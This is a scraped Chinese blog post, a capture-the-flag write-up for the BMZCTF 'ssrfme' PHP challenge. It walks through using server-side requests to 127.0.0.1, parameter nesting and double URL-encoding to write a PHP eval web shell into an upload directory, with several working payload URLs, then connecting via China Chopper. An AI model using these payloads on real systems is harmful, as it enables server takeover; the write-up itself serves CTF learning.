





<!--yml
category: 未分类
date: 2022-04-26 14:51:27
-->

# BMZCTF SSRFME 详解_black guest丶的博客-CSDN博客_bmzctf

> 来源：[https://blog.csdn.net/u013797594/article/details/118463622](https://blog.csdn.net/u013797594/article/details/118463622)

# BMZCTF ssrfme详解

# 题目：



打开题目直接是PHP代码，阅读代码：首先要求传入get参数file和path，file会直接赋值给$url，path会拼接upload，如果$path里面有…那么就会终止执行。$url如果以http://127.0.0.1/开头，则通过file_get_contents($url)读取内容，然后通过file_put_contents()写入到$path中，并且通过echo输出"console.log($path update successed!)" ,$path可控。

# 解题思路

## 1.文件包含漏洞

file_get_contents()和include等函数一样，是可以导致PHP文件包含漏洞的，php://、file://、zip://、compress等伪协议都可以利用，但这道题因为判断了if(strpos($url,‘http://127.0.0.1/’) === 0)，要求传入的file参数必须以http://127.0.0.1/开头这样就限制必须使用http伪协议，使用http协议可以进行本地和远程文件包含，当allow_url_fopen = On时可进行本地文件包含（应该只能包含到网站根目录即其子目录下的文件），**并且包含时也可传入参数**

有了这个知识点，我们就可以构造这样的参数来读取网站下的文件了:

```
#file_get_contents读取index.php文件内容后，通过file_put_contents()写入到$path中，也就是upload/test.php文件中
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php&path=test.php 
```

这样读取到的是index.php源文件，一般读取源文件可以找到一些隐藏提示，但这道题并没有，所以光是这样还不行，又涉及到下一个知识点。

## 2.通过http方式包含的文件可传入参数

查看文档，file_get_contents()的作用是：把整个文件读入一个字符串中，这点和include函数还是有区别的，include包含的文件会直接当做php脚本执行，但file_get_contents直接包含文件名只会读取为字符串。那要如何利用呢？答案是通过http伪协议方式去读取。

来做下测试：

创建2个文件，文件1 test.php

```
<?php
error_reporting(0);
echo file_get_contents($_GET['file']); 
```

文件2 test2.php

```
<?php
echo 'go'; 
```

我们访问test.php?file=test2.php，查看源码发现读取的是test2.php源码的内容



访问test.php?file=http://127.0.0.1/test2.php，则直接是获取到go，也就是php执行后的结果


**所以文件包含中通过http伪协议方式去读取文件，就和我们直接在浏览器中通过http方式去访问一个页面是完全一样的效果，服务器会直接通过http方式去访问这个页面，因此我们也可以给它传入参数，这点在很多CTF题目中都会考。**

于是我们就想到要构造如下payload:

```
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php&path=test1.php&path=test2.php 
```

**注意**：我们刚才提到file_get_contents函数通过http伪协议方式包含的地址，服务器就会以http方式去访问，那服务器自己访问的就是http://127.0.0.1/index.php?file=http://127.0.0.1/index.php&path=test1.php，因为代码中使用echo输出结果（“console.log($path update successed!)”），服务器自己访问页面后返回的结果就是console.log(upload/test1.php update successed!) ，并且也会成功写一个test1.php文件 ，file_get_contents函数执行结束。然后通过file_put_contents写入到$path(test2.php)中。这里存在一个利用点就是echo输出的$path是可控的，最终写入到文件中的内容是服务器自己通过http访问页面后echo出来的内容，那我们就可以把自己想要的东西写入到文件中了，构造payload: 把test1.php变为<?php eval($_POST[‘shell’]);?>

```
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php&path=<?php eval($_POST['shell']);?>&path=test2.php 
```

我们想让服务器自己访问的http变成了http://127.0.0.1/index.php?file=http://127.0.0.1/inde.php&path= <?php eval($_POST[‘shell’]);?> ，想要得到的结果就是console.log(<?php eval($_POST[‘shell’]);?> update successed!) ，然后通过file_put_contents函数写入upload/test2.php页面中，便能成为我们的php后门脚本。但其实直接这样传入还是不行，这里还涉及3个小的知识点。

**一.php在收到请求后，会解析key=value形式的参数，以&分割参数**

**二.默认情况下，浏览器会对特殊字符进行url编码，所以php默认就会对解析后的参数进行url解码，注意是对解析后的。比如你传入的参数直接将&进行了url编码，那php就没有办法根据&分割参数了。**

​ http://127.0.0.1/?name=asd&password=123，会解析出name和password这2个参数

​ 将&进行url编码后：

​ http://127.0.0.1/?name=asd%26password=123，只会解析出name这1个参数，并且name的值会进行url解码变成asd&password=123

**三.空格等特殊字符如果不进行编码，服务器在处理的时候可能出现问题，通过浏览器的方式访问的话，空格会自动编码为%20或+，但我们通过上述方法嵌套参数，让服务器自己去请求http的时候就会出现问题，解决办法是进行二次编码。因为第二点说了web服务器默认就会对解析后的参数进行url解码，所以php最开始解析我们的参数时进行了一次解码，服务器通过http伪协议去访问时又会对解析后的参数进行一次解码，所以我们可以进行二次编码**

综合一二三的知识点，就可以构造如下payload:

```
#1.将其中一个&进行url编码，让服务器成功解析出2个参数：
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php%26path=<?php eval($_POST['shell']);?>&path=test2.php

#2.将一句话木马中的空格进行二次编码，形成最终的payload:
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php%26path=<?php%2520eval($_POST['shell']);?>&path=test2.php

#当然对整个一句话<?php eval($_POST['shell']);?>中所有字符进行二次编码也是可以的，其他题都可以这么搞，免得有别的字符影响结果
http://www.bmzclub.cn:22284/?file=http://127.0.0.1/index.php?file=http://127.0.0.1/index.php%26path=%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%36%35%25%37%36%25%36%31%25%36%63%25%32%38%25%32%34%25%35%66%25%35%30%25%34%66%25%35%33%25%35%34%25%35%62%25%32%37%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%37%25%35%64%25%32%39%25%33%62%25%33%66%25%33%65&path=test2.php 
```



菜刀连接，找到flag



菜刀连接，找到flag

